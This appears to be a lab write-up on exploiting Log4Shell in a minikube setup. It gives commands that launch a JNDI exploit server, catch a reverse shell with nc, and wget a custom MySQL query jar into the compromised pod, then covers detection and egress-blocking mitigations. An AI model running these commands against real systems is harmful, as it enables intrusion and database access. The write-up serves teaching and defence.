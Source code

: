 
Once you've done the setup in the readme_original

## how to exploit 
launch this command with the file present in the exploit/ folder
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i host.minikube.internal -p 8080
```

then launch this command 

```
ruby ./script/exploit.rb & nc -lv 3000
```

you should get a shell on the machine

## how to execute mysql command


we need mysql client. but there is no internet on the pod

launch a php server next to the file `mysql_utlis.jar` with the command.   ( This file is in exploit/ ) 
I build this jar file. the source code is next to it

```
php -S 0.0.0.0:8000
```

then from the server where you have a reverse shell download the tool I build in java with `wget`
I choosed this way for doing mysql request because the VM doesn't have internet and it's impossible to install some packet or really difficult 
So I built a little java binary that can make mysql request and display it from a tutorial I found on internet because I'm not a java developer at all. That was my first java program.  

```
wget host.minikube.internal:8000/mysql_utils.jar
```

inside the pod you can make query by using the tool this way:

``` 
java -jar mysql_utlis.jar db_name mysql_request 
```

To prove I did some sql request let's do some capture

```
java -jar mysql_utils.jar mysql "show databases;"
```

![screen_capture](images/screen_capture_mysql_request.png)

```
java -jar mysql_utils.jar sys "show columns from user_summary;"
```

![screen_capture](images/screen_capture_mysql01.png)

# Question

## How could we detect this exploit
The answer may vary because of what the server have to do on a regulary basis. But the simpliest solution is probably this: 
The exploit involve that the server, which use the Log4j library vulnerable, make some ldap / rmi / http request. If you log the network somewhere you should be able to see that request from the server. So you could say that every time your server make that kind of request himself to an IP you don't know as an ldap rmi or http server you own. This is the things where you can detect the exploit. you can't really hide or make this exploit works other way. 

An organisation should always log his network and check for scetchy behaviour on it. Snort is a good tool to do this. 
If you know that you own a log4j component vulnerable that you won't fix, you should start to do this.

## How to prevent without fix

To prevent without fix it. You could add some firewall rules or some WAF rules to block JNDI request to others servers you don't own. That mean you should do a whitelist of ip where your server can do those request. All the others are blocked.  Log4shell request may be LDAP RMI or HTTP request. you should block all those kind of request from your log server for IP you don't know. 

If you follow the principle of defense in depth, a log server should not be able to make any kind of request, block them all.  Except maybe the one for making backups if necessary.  Furthermore, if you need to do some request on your server,  to list your own servers which may legitimately receive request from your log4shell vulnerable asset should be easy. If it's not, you may need to redisign your network as it's dangerous to run a network like that. You could also remove the access to internet for the vulnerable tool if you don't need it.

You may also use the tool NCCGROUP provide  https://github.com/nccgroup/log4j-jndi-be-gone but it will block any JNDI request.
